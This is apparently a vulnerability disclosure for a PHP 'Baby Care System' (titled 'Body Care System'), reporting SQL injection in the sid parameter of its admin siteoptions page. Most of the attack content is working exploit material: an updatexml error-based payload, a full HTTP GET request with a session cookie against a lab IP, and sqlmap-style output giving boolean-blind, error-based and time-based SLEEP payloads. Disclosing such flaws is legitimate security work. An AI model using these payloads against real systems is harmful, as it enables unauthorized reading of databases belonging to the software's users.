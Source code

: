 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/siteoptions.php&social=display&value=0&sid=2

![image](https://user-images.githubusercontent.com/54017627/161355656-51fc1533-645f-475f-9543-f1b8cfda034c.png)

Vulnerability location: /BabyCare/admin.php?id=siteoptions&social=display&value=0&sid=2 //sid is Injection point

[+]Payload:  /BabyCare/admin.php?id=siteoptions&social=display&value=0&sid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //sid is Injection point

```sql
GET /BabyCare/admin.php?id=siteoptions&social=display&value=0&sid=2%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161355572-19eb6a66-cf68-4973-913c-f7b3fed27099.png)

```sql
---
Parameter: sid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=siteoptions&social=display&value=0&sid=2' RLIKE (SELECT (CASE WHEN (1596=1596) THEN 2 ELSE 0x28 END))-- vRBd

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: id=siteoptions&social=display&value=0&sid=2' AND EXTRACTVALUE(9578,CONCAT(0x5c,0x716a7a6a71,(SELECT (ELT(9578=9578,1))),0x717a717871))-- BkeH

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=siteoptions&social=display&value=0&sid=2' AND (SELECT 4775 FROM (SELECT(SLEEP(5)))Cixw)-- gPVs
---
```

![image](https://user-images.githubusercontent.com/54017627/161355637-70b6ae74-0250-4b8f-94f9-6bbfb07f6f1f.png)

